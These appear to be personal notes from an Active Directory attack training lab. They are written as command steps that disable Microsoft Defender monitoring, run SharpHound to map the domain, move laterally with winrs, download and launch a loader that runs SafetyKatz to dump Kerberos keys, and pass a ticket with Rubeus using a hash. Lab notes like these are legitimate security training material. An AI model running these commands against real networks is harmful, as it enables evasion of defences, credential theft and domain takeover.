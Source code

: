 

# BloodHound
### Objective 6:

- Setup BloodHound and identify shortest path to Domain Admins in the dollarcorp domain.

```
####Disable real time detection

Get-MpPreference
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
. .\SharpHound.ps1
invoke-BloodHound -CollectionMethods All -Verbose
```
![[Pasted image 20230723130952.png]]
![[Pasted image 20230725141409.png]]

# Domain Privilege Escalation _1:

### Objective 7:

- Identify a machine in the target domain where a Domain Admin session is available. 
- Compromise the machine and escalate privileges to Domain Admin
		−Using access to dcorp-ci
		−Using derivative local admin


***Method 1:***
```powershell


Find-DomainUserLocation

winrs -r:dcorp-mgmt whoami;hostname

iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe

echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe

$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.6"

./Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::ekeys"

C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```
